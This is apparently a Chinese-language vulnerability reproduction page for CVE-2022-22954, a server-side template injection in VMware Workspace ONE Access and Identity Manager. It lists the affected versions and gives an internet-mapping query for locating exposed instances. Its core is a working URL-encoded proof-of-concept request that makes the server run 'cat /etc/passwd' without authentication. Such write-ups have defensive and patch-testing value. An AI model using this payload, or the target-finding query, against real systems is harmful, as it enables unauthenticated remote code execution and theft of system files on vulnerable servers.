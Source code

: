 # VMware Workspace ONE Access SSTI漏洞 CVE-2022-22954

# VMware Workspace ONE Access SSTI漏洞 CVE-2022-22954

## 漏洞描述

VMware Workspace ONE Access（以前称为VMware Identity Manager）旨在通过多因素身份验证、条件访问和单点登录，让您的员工更快地访问SaaS、Web和本机移动应用程序。其中的CVE-2022-22954是一个匿名服务器模板注入漏洞，未经身份验证的攻击者可以利用此漏洞进行远程任意代码执行。

## 漏洞影响

```
VMware Workspace ONE Access Appliance （版本号：20.10.0.0 ，20.10.0.1 ，21.08.0.0 ，21.08.0.1 ）
VMware Identity Manager Appliance （版本号：3.3.3 ， 3.3.4 ， 3.3.5 ，3.3.6）
VMware Realize Automation （版本号：7.6）
```

## 网络测绘

```
app="vmware-Workspace-ONE-Access"
```

## 漏洞复现

登录页面

![image-20220524132528721](/images/202205241325815.png)

验证POC

```
/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
```

![image-20220524132657968](/images/202205241326167.png)

